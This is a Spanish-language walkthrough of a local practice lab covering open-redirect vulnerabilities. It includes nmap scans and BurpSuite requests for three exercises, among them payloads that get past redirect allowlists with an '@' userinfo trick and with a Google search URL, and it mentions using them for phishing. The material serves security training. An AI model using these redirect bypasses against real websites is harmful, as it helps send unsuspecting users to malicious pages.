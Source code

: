 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Redirection BugBountyLabs (Principiante)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bugbountylabs_redirection.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
python3 bugbountylabs_redirection.py
```

Info:

```
██████╗ ██╗   ██╗ ██████╗     ██████╗  ██████╗ ██╗   ██╗███╗   ██╗████████╗██╗   ██╗    ██╗      █████╗ ██████╗ ███████╗
██╔══██╗██║   ██║██╔════╝     ██╔══██╗██╔═══██╗██║   ██║████╗  ██║╚══██╔══╝╚██╗ ██╔╝    ██║     ██╔══██╗██╔══██╗██╔════╝
██████╔╝██║   ██║██║  ███╗    ██████╔╝██║   ██║██║   ██║██╔██╗ ██║   ██║    ╚████╔╝     ██║     ███████║██████╔╝███████╗
██╔══██╗██║   ██║██║   ██║    ██╔══██╗██║   ██║██║   ██║██║╚██╗██║   ██║     ╚██╔╝      ██║     ██╔══██║██╔══██╗╚════██║
██████╔╝╚██████╔╝╚██████╔╝    ██████╔╝╚██████╔╝╚██████╔╝██║ ╚████║   ██║      ██║       ███████╗██║  ██║██████╔╝███████║
╚═════╝  ╚═════╝  ╚═════╝     ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝   ╚═╝      ╚═╝       ╚══════╝╚═╝  ╚═╝╚═════╝ ╚══════╝

Fundadores
El Pingüino de Mario
Curiosidades De Hackers

Cofundadores
Zunderrub
CondorHacks
Lenam

Descargando la máquina redirection, espere por favor...

[########################################] 100%
Descarga completa.
La IP de la máquina redirection es -> 172.17.0.2

Presiona Ctrl+C para detener la máquina
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 12:55 CET
Nmap scan report for app.dl (172.17.0.2)
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Open Redirect
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

Vemos que hay un puerto `80` y si entramos a la pagina web veremos varios laboratorios de `Open Redirect`, por lo que vamos a ir haciendolos uno por uno.

## LAB 1:

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

Veremos que con ese boton nos lleva a `google.com` por lo que vamos abrir `BurpSuite` y capturar esa peticion de redireccion, veremos lo siguiente:

```
GET /laboratorio1/redirect.php?url=http://google.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Vemos que se esta poniendo directamente en la `URL` la redireccion a `google.com`, pero si nosotros ponemos por ejemplo `example.es` quedando de la siguiente forma:

```
GET /laboratorio1/redirect.php?url=http://example.es HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Y si la enviamos, y vamos a la pagina veremos que nos redirije de forma correcta:

<figure><img src="../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

Por lo que habremos terminado el primero `laboratorio`.

## LAB 2:

<figure><img src="../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

Veremos si le damos al boton de `Google` nos lleva a `google.com`, pero si intentamos hacer lo mismo de antes, reemplazando la `URL` mediante `BurpSuite` por la de `example.es` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos lo esta bloqueando, pero si realizamos algun `Bypass` poniendo un `@` por delante para que se piense el servidor que es un `subdominio` de `google.es` y nos llevara a dicha `URL` que le metamos.

Capturaremos la peticion con `BurpSuite` y veremos lo siguiente:

```
GET /laboratorio2/redirect.php?url=https://www.google.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio2/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Ahora le pondremos el `payload` de forma `bypasseada` quedando de la siguiente forma:

```
GET /laboratorio2/redirect.php?url=https://www.google.com@example.es HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio2/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Ahora si enviamos la peticion y volvemos a la pagina veremos que nos ha llevado de forma correcta a `example.es`.

<figure><img src="../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

Por lo que habremos terminado el `laboratorio`.

## LAB 3:

<figure><img src="../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Veremos que si le damos al boton de `Ir a Google` nos llevara a `google.com`, pero si intentamos cambiar directamente la `URL` mediante la peticion con `BurpSuite` veremos que no funciona y nos aparece lo mismo de antes:

<figure><img src="../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

Pero si intentamos poner el `@` para hacer creer que es un `subdominio` nos aparecera el mismo mensaje de bloqueo, por lo que haremos que busque el navegador la`URL` en este caso del atacante y esto tambien se considera un `Open redirect` ya que con esta tecnica mediante un poco de `phising` puede el usuario pinchar en el enlace malicioso.

Vamos abrir `BurpSuite` capturar la peticion y dejaremos la peticion de la siguiente forma:

```
GET /laboratorio3/redirect.php?url=https://www.google.com/search?q=example.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio3/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Poniendo el `?q=` despues de la `URL` veremos lo siguiente cuando la enviemos:

<figure><img src="../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando de forma correcta y nos lleva directamente a la `URL` maliciosa para que el usuario pinche.
